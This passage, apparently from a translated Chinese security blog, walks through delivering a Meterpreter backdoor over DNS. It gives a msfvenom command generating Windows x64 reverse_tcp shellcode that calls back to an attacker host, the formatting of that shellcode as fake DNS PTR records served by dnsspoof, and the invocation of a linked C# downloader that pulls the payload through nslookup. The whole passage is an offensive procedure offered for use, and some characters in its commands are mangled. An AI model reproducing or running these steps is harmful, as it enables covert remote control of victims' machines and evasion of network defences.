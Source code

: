 例2 , 第二种技术DNS流量: msfvenom –-platform windows –arch x86_64 –p windows/x64/meterpreter/reverse_tcp lhost=192-168-1-50 –f c &gt; /root/Desktop/payload.txt

生成payload.txt文件后，必须把载荷拷贝到dns.txt，按照图4里的格式，一行一行的拷贝。这非常重要，必须保证dns.txt有正确的格式。因为Linu里的Dnsspoof要用到，格式如下：



```
IP地址 “`{`载荷`}`.域.com”
1.1.1.0 “0xfc0x480x830xe40xf00xe8.1.com”
1.1.1.1“0xbc0xc80x130xff0x100x08.1.com”
```

在这种情况下，因为我的C#后门定制化的用到了域名"1.com"，我们必须使用这个名称作为域名。或者像其他"2.com"，"3.net"，"t.com"，再或者一个字符加".com"作为域名。

所以在这种情况下，IP地址” 1.1.1.x”	里的x就是dns.txt文件里的载荷行数，



```
1.1.1.0 --&gt; payload.txt里的0行 --&gt; “`{`载荷0`}`.1.com”
1.1.1.1 --&gt; payload.txt里的1行  --&gt; “`{`载荷1`}`.1.com”
1.1.1.2 --&gt; payload.txt里的2行  --&gt; “`{`载荷2`}`.1.com”
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t0183cc2b3aae83d64d.png)

图4：生成假冒的DNS服务器和Meterpreter载荷的步骤1

生成后的dns.txt文件应该如下图5。

[![](https://p4.ssl.qhimg.com/t018744622c77f25f9b.png)](https://p4.ssl.qhimg.com/t018744622c77f25f9b.png)

图5：dnsspoof用来假冒DNS服务器的Dns.txt文件

好了，现在利用dnsspoof在Linux里生成假冒的DNS服务器，像下图6一样。

[![](https://p1.ssl.qhimg.com/t01d0c130ee2c5e2e76.png)](https://p1.ssl.qhimg.com/t01d0c130ee2c5e2e76.png)

图6：dnsspoof工具

在步骤2中，我们需要一个后门，从假冒的DNS服务器下载攻击载荷，利用的是DNS协议。

在这种情况下，我编写了C#代码来干这件事。我的代码里使用了nslookup.exe发送DNS请求，最终我的代码捕获到了DNS PTR类型回应里的后门载荷。

C# 源代码链接: [https://github.com/DamonMohammadbagher/NativePayload_DNS](https://github.com/DamonMohammadbagher/NativePayload_DNS) 

步骤2：

源代码编译后，生成的exe，按照如下的命令语法执行：

命令语法: NativePayload_DNS.exe 	“起始IP地址”  计数   “假冒DNS服务器IP地址”

例如: C:&gt; NativePayload_DNS.exe 	“1.1.1.” 		34 		“192.168.1.50”

起始IP地址：是你PTR记录里的第一个IP地址，不包含最后一节。对于域名ID `{` 1 . 1 . 1 . `}`你需要输入三个1.作为参数。

计数：是DNS PTR类型记录的个数，在这种情况下，我们dns.txt 文件里的1.1.1.0 …. 1.1.1.33，所以这个计数是34。
